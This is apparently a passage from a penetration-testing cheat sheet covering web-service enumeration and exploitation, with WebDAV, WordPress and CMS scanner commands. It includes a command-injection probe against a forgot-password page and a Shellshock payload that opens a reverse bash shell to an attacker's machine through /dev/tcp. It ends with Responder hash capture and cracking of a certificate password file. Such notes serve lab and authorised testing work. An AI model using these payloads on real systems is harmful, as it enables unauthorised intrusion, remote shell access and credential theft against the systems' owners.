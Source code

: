 ### Webdav enabled

```bash
davtest -url http://$ip/ -auth 'user:pass'
```

### Wordpress

```html
wpscan --url http://$ip --enumerate vp
```

```bash
wpscan -u http://$ip/webservices/wp/ --enumerate p,t,u
```

[https://github.com/dionach/CMSmap](https://github.com/dionach/CMSmap)

```html
python3 cmsmap.py http://$ip
```

### Forgot Password PHP Page

Try

```bash
GET /forgot_pass.php?email=%0aid
```

### Shellshock Enumeration

```bash
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://$ip/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
```

Exploitation:

```bash
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/$kali_ip/443 0>&1' http://$ip/cgi-bin/admin.cgi
```

### SSRF (RFI) using Responder

```bash
responder -I tun0 -wv
```

---

### Port 443

Crack certificate password (.pfx)

```bash
pfx2john staff.pfx > staff.hash
```
